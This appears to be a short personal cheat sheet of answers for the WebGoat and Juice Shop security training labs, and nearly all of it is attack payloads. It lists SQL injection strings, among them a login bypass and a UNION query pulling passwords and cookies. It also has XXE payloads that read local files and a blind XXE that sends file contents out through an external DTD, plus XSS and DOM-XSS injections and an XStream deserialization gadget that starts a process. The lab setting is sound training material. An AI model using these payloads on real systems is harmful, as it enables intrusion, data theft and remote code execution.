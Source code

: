 ### SQLi ###  

Basic  
Smith - to show it returns smith's records.    
To show exploit; `1=1` can be any true clause:  

```sql  
Smith' or '1'='1   
```

**Bender Login**  
```sql
bender@juice-sh.op' --  
```
```sql 
[2:19 PM]  
101
101 or 1=1
```  
```sql 
Smith' union select userid,user_name, password,cookie,cookie, cookie,userid from user_system_data --
```  

## XXE ##

Simple:  
```xml 
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><comment><text>&root;</text></comment>  
```

Modern Rest Framework:  
Change content type to: `Content-Type: application/xml` and 
```xml  
<?xml version="1.0" standalone="yes" ?><!DOCTYPE user [<!ENTITY root SYSTEM "file:///"> ]><user>  <username>&root;</username><password>test</password></user>
```  

Blind SendFile   
```xml
  
      Solution:
     
      Create DTD:
     
      <pre>
          <?xml version="1.0" encoding="UTF-8"?>
          <!ENTITY % file SYSTEM "file:///c:/windows-version.txt">
          <!ENTITY % all "<!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=%file;'>">
           %all;
      </pre>
     
      This will be reduced to:
     
      <pre>
          <!ENTITY send SYSTEM 'http://localhost:8080/WebGoat/XXE/ping?text=[contents_file]'>
      </pre>
     
      Wire it all up in the xml send to the server:
     
      <pre>
       <?xml version="1.0"?>
       <!DOCTYPE root [
       <!ENTITY % remote SYSTEM "http://localhost:8080/WebGoat/plugin_lessons/XXE/test.dtd">
       %remote;
        ]>
       <user>
         <username>test&send;</username>
       </user>
     
      </pre>
     
     
```

### XSS ###
```javascript
<script>alert('my javascript here')</script>4128 3214 0002 1999
``` 

DOM-XSS:  

  Something like 
  `http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere%3Cscript%3Ewebgoat.customjs.phoneHome();%3C%2Fscript%3E
//`   
OR  
`http://localhost:8080/WebGoat/start.mvc#test/testParam=foobar&_someVar=234902384lotslsfjdOf9889080GarbageHere<script>webgoat.customjs.phoneHome();<%2Fscript>`  

### Vuln - Components ###

Jquery page: - it is contrived; but paste that in each box  
```javascript
OK<script>alert("XSS")<\/script>
OK<script>alert("XSS")<\/script>
```
for the deserialization:  got to the link: http://www.pwntester.com/blog/2013/12/23/rce-via-xstream-object-deserialization38/  to read about why it works so you can talk to it.
```html  
<sorted-set>  
 <string>foo</string>
 <dynamic-proxy>
   <interface>java.lang.Comparable</interface>
   <handler class="java.beans.EventHandler">
     <target class="java.lang.ProcessBuilder">
       <command>
         <string>/Applications/Calculator.app/Contents/MacOS/Calculator</string>
       </command>
     </target>
     <action>start</action>
   </handler>
 </dynamic-proxy>
</sorted-set>

```

